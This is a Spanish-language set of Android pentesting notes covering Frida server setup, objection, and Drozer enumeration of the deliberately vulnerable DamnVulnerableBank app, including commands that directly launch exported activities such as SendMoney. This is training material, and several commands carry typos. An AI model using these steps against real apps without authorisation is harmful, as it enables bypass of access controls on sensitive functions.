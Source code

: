 ```yaml
---
title:  "Frida-Server SSL Pinning/Drozer"
date:   2024-06-19
categories: [SSL Pinning, Drozer]
tags: [SSL Pinning, Server, Pentesting]
---
```

`Descargar e instalar frida server en dipositivo rooteado`. 

1. Dispositivo rooteado. 
2. Activar depuración USB en el celular (Modo desarrollador). 
3. Identificar arquitectura del dispositivo para tener el server de frida en el dispositivo.

``` bash
> adb shell getprp ro.product.cpu.abi
```

4. Tener instalado Magisk (Solo si la aplicación no permite la ejecución en dispositivos root). 

``` bash
> adb push frida-server-16.3.3-android-arm64 /data/local/tmp
#Ejecutar frida server en el dispositivo en la ruta /data/local/tmp
> ./frida-server-16.3.3-android-arm64 &
```

5. Configurar la máquina en puente, para poder interceptar con burp. 

`En el PC`.

1. Instalar frida-tools. 

2. Instalar objection.

``` bash
> gitclone https://www.github.com/objection.
> pip3 install objection
> pip3 install -r requirements.txt
> python3 setup.py
> sudo pip3 install --upgrade objection


> sudo nano drozer.sh
adb forward tcp:31415 tcp:31415
sudo docker run --net host -it withsecurelabs/drozer console connect --server localhost
#Se crea el enlace simbólico para que solo sea ejecutar nombre de la herramienta. 
sudo ln -S /home/kali/Documents/drozer/drozer.sh /usr/data/bin/drozer
``` 

`DROZER`

Package: Find the name of the package filtering by part of the name. 
```bash
#Encontrar el package filtrando por el nombre. 
dz> run app.package.list -f vulnerable

Attempting to run shell module
com.app.damnvulnerablebank (DamnVulnerableBank)

# Información básica del package. 
dz> run app.package.info -a com.app.damnvulnerablebank

Attempting to run shell module
Package: com.app.damnvulnerablebank
  Application Label: DamnVulnerableBank
  Process Name: com.app.damnvulnerablebank
  Version: 1.0
  Data Directory: /data/user/0/com.app.damnvulnerablebank
  APK Path: /data/app/~~0njZ5wMIcY8pNtm9UfJCSA==/com.app.damnvulnerablebank-hJKz3GQoPmNBR64j0Y7gCg==/base.apk
  UID: 10260
  GID: [3003]
  Shared Libraries: [/system/framework/android.test.base.jar]
  Shared User ID: null
  Uses Permissions:
  - android.permission.INTERNET
  - android.permission.USE_BIOMETRIC
  - android.permission.USE_FINGERPRINT
  - android.permission.POST_NOTIFICATIONS
  Defines Permissions:
  - None


#Leer manifest
dz> run app.package.manifest com.app.damnvulnerablebank

Attempting to run shell module
<manifest versionCode="1"
          versionName="1.0"
          compileSdkVersion="29"
          compileSdkVersionCodename="10"
          package="com.app.damnvulnerablebank"
          platformBuildVersionCode="29"
          platformBuildVersionName="10">
  <uses-sdk minSdkVersion="21"
            targetSdkVersion="29">
  </uses-sdk>


#Superficie de ataque
dz> run app.package.attacksurface com.app.damnvulnerablebank

Attempting to run shell module
Attack Surface:
  6 activities exported
  0 broadcast receivers exported
  0 content providers exported
  0 services exported


#Activities
# listar actividades exportadas
run app.activity.info -a com.app.damnvulnerablebank

Attempting to run shell module
Package: com.app.damnvulnerablebank
  com.app.damnvulnerablebank.CurrencyRates
    Permission: null
  com.app.damnvulnerablebank.SendMoney
    Permission: null
  com.app.damnvulnerablebank.ViewBalance
    Permission: null
  com.app.damnvulnerablebank.SplashScreen
    Permission: null
  androidx.biometric.DeviceCredentialHandlerActivity
    Permission: null
  com.google.firebase.auth.internal.FederatedSignInActivity
    Permission: com.google.firebase.auth.api.gms.permission.LAUNCH_FEDERATED_SIGN_IN
```

El valor 'android:exported' de un componente de actividad exportado está configurado en 'true' en el archivo AndroidManifest.xml.

```xml
<activity android:exported="true" android:name="com.app.damnvulnerablebank.SendMoney">
<activity android:exported="true" android:name="com.app.damnvulnerablebank.ViewBalance"/>
<activity android:exported="true" android:name="androidx.biometric.DeviceCredentialHandlerActivity" android:theme="@style/DeviceCredentialHandlerTheme"/>

#Configuración de <activity> de manera correcta.
<activity android:name="com.app.damnvulnerablebank.ResetPassword"/>
<activity android:name="com.app.damnvulnerablebank.ViewBeneficiary"/>
```

```bash
#Start Activity
dz> run app.activity.start --component com.app.damnvulnerablebank com.app.damnvulnerablebank.CurrencyRates
dz> run app.activity.start --component com.app.damnvulnerablebank com.app.damnvulnerablebank.SendMoney
dz> run app.activity.start --component com.app.damnvulnerablebank com.app.damnvulnerablebank.ViewBalance
dz> run app.activity.start --component com.app.damnvulnerablebank com.app.damnvulnerablebank.SplashScreen


#Start activity with adb
adb shell am start -n com.app.damnvulnerablebank/com.app.damnvulnerablebank.SendMoney

#Content provider / Services

```






